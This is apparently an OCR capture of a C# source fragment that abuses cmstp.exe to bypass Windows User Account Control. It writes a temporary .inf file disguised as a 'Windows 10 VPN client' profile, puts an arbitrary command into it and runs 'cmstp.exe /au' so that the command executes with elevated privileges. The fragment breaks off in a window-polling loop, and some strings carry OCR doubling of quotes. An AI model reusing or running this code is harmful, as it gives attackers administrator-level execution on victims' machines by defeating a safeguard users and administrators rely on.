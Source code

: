        [CustInstDestSectionAllUsers]
        49000,49001=AllUSer_LDIDSection, 7
        
        [AllUSer_LDIDSection]
        ""HKLM"", ""SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\CMMGR32.EXE"", ""ProfileInstallPath"", ""%UnexpectedError%"", """"
        
        [Strings]
        ServiceName=""Windows 10 VPN client""
        ShortSvcName=""Windows 10 VPN client""
        ";
        
            [DllImport("user32.dll")] public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
            [DllImport("user32.dll", SetLastError = true)] public static extern bool SetForegroundWindow(IntPtr hWnd);
        
            public static string BinaryPath = "c:\\windows\\system32\\cmstp.exe";
        
            /* Generates a random named .inf file with command to be executed with UAC privileges */
            public static string SetInfFile(string CommandToExecute)
            {
                string RandomFileName = Path.GetRandomFileName().Split(Convert.ToChar("."))[0];
                string TemporaryDir = "C:\\windows\\temp";
                StringBuilder OutputFile = new StringBuilder();
                OutputFile.Append(TemporaryDir);
                OutputFile.Append("\\");
                OutputFile.Append(RandomFileName);
                OutputFile.Append(".inf");
                StringBuilder newInfData = new StringBuilder(InfData);
                newInfData.Replace("REPLACE_COMMAND_LINE", CommandToExecute);
                File.WriteAllText(OutputFile.ToString(), newInfData.ToString());
                return OutputFile.ToString();
            }
        
            public static bool Execute(string CommandToExecute)
            {
                if(!File.Exists(BinaryPath))
                {
                    Console.WriteLine("cmstp.exe not found!");
                    return false;
                }
                StringBuilder InfFile = new StringBuilder();
                InfFile.Append(SetInfFile(CommandToExecute));
        
                Console.WriteLine("File written to " + InfFile.ToString());
                ProcessStartInfo startInfo = new ProcessStartInfo(BinaryPath);
                startInfo.Arguments = "/au " + InfFile.ToString();
                startInfo.UseShellExecute = false;
                Process.Start(startInfo);
        
                IntPtr windowHandle = new IntPtr();
                windowHandle = IntPtr.Zero;
                do {
                    windowHandle = SetWindowActive("cmstp");
                } while (windowHandle == IntPtr.Zero);
        